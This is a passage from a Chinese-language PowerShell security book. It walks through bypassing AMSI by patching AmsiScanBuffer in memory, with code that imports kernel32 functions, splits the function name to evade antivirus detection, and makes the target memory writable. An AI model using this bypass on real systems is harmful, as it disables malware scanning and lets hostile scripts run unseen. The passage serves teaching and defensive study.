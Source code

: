 图 12.13 – 反编译后的 AmsiScanString 函数

所以，我们基本上需要做的就是首先找出当前加载的`amsi.dll`文件中`AmsiScanBuffer`函数的起始地址。

一旦我们知道了这个地址，我们可以尝试操作内存，使得它不会跳转到实际的`AmsiScanBuffer`函数，而是跳过它。当我们在内存/汇编级别进行操作时，有一个技巧可以帮助我们实现这一目标。`RET`指令表示子程序的结束并返回到最初调用它的代码。所以，如果我们用`RET`指令覆盖`AmsiScanBuffer`子程序的前几个字节，这个函数就会被终止而不扫描任何内容。

一旦我们完成这一步，我们就可以在当前会话中执行所有想要的 PowerShell 代码，而不会被检查。但是，类似地，如果攻击者能够编辑系统中进程的任意内存，你可能会面临更大的问题。

让我们看看如何在 PowerShell 中实现这一点。`kernel32.dll`文件提供了使用 PowerShell 访问内存的函数，特别是`GetModuleHandle`、`GetProcAddress`和`VirtualProtect`函数。因此，让我们将这些函数导入到当前的 PowerShell 会话中：

```
Add-Type -TypeDefinition @"
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
public static class Kernel32
{
    [DllImport("kernel32", SetLastError=true, CharSet = CharSet.Ansi)]
        public static extern IntPtr GetModuleHandle(
            [MarshalAs(UnmanagedType.LPStr)]string lpFileName);
    [DllImport("kernel32", CharSet=CharSet.Ansi, ExactSpelling=true, SetLastError=true)]
        public static extern IntPtr GetProcAddress(
            IntPtr hModule,
            string procName);
    [DllImport("kernel32", CharSet=CharSet.Ansi, ExactSpelling=true, SetLastError=true)]
        public static extern IntPtr VirtualProtect(
            IntPtr lpAddress,
            UIntPtr dwSize,
            uint flNewProtect,
            out uint lpflOldProtect);
}
"@
```

使用`Kernel32`中的`GetModuleHandle`函数，我们将获取加载到当前进程中的`amsi.dll`文件的句柄。句柄是模块的基址，因此通过这一步，我们将找出模块在内存中的起始位置：

```
$AmsiHandle = [Kernel32]::GetModuleHandle("amsi.dll")
```

许多 AV 产品将检测到试图篡改`AmsiScanBuffer`函数的脚本。因此，为了避免被检测到，我们需要将函数名拆分为两个命令：

```
$FuncName = "AmsiScan"
$FuncName += "Buffer"
```

一旦完成此操作，我们可以检索`AmsiScanBuffer`的进程地址，以便稍后尝试覆盖它：

```
$FuncPtr = [Kernel32]::GetProcAddress($AmsiHandle, $FuncName)
```

下一步，我们需要取消保护要覆盖的内存区域：

```
$OldProtection = 0
[Kernel32]::VirtualProtect($FuncPtr, [uint32]1, 0x40, [ref]$OldProtection)
```

